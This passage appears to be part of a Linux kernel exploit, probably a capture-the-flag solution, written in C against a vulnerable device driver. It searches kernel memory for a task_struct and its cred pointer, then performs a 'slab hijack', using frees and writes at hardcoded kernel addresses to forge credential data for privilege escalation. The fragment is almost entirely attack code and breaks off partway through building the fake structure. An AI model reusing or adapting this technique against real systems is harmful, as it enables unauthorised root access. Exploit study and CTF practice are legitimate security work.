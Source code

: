 ```c
        LongToStr(start_addr);
        //write to the bss
        Write(fd,0xc7,0xfff2ff9da00023f2L,0x10);
        //read to usr_buf
        Read(fd,0,0,BUFSZ);
        //find
        result = memmem(usr_buf,BUFSZ,hidden_str,16);
		if (result)
		{
            printf("[*]find success:0x%llx\n",start_addr);
			cred = *(size_t *)(result - 0x8);
			real_cred = *(size_t *)(result - 0x10);
			if( (cred||0xff00000000000000) && (real_cred == cred)){
				//printf("[]%lx[]",result-(int)(buf));
				target_addr = start_addr + result-(int)(usr_buf);
				printf("[+]found task_struct 0x%lx\n",target_addr);
				printf("[+]found cred 0x%lx\n",real_cred);
				break;
			}

		}
    }
    //slab hijack
    memset(usr_buf,'\x00',BUFSZ);
    LongToStr(cred);
    for(int i = 3;i > 0;i--)
        Free(fd,i);
    //


    Write(fd,0xc7,heap_base+0x100-0x000d00620000002eL,0x8);
    Write(fd,0xc7,0xffff88801e3e3100-0x000d00620000002eL,0x8);
    Write(fd,0xc7,0xffff88801e3e3000-0x000d00620000002eL,0x8);
    //Read(fd,0xc7,0xfff2ff9da00023f2L,0x8);
    Malloc(fd,1,ini_buf);
    Write(fd,0xc7,0xffff88801e3e3100-0x000d00620000002eL,0x10);
    Write(fd,0xc7,0xffff88801e3e3000-0x000d00620000002eL,0x8);
    size_t final[0x100];
    memset(final,'\x00',sizeof(final));
    int idx = 0;
    final[idx++] = 0x3;
    for(int i = 0;i < 5;i++)
        final[idx++] = 0;
    for(int i = 0;i < 3;i++)
        final[idx++] = 0x0000003fffffffff;
    final[idx++] = 0;
    final[idx++] = 0xffffffff8183e420;
    final[idx++] = 0xffffffff8183e4a0;
    final[idx++] = 0xffff88800012f6a0;
    final[idx++] = 0;
    final[idx++] = 0;
    final[idx++] = 0;
    final[idx++] = 0xffff88800001f980;
    for(int i = 0;i < 5;i++)
        final[idx++] = 0;
    for(int i = 0;i < 3;i++)
        final[idx++] = 0x0000003fffffffff;
    final[idx++] = 0;
    final[idx++] = 0xffffffff8183e420;
    final[idx++] = 0xffffffff8183e4a0;
    final[idx++] = 0xffff88800012f6a0;
    final[idx++] = 0;
    final[idx++] = 0;
```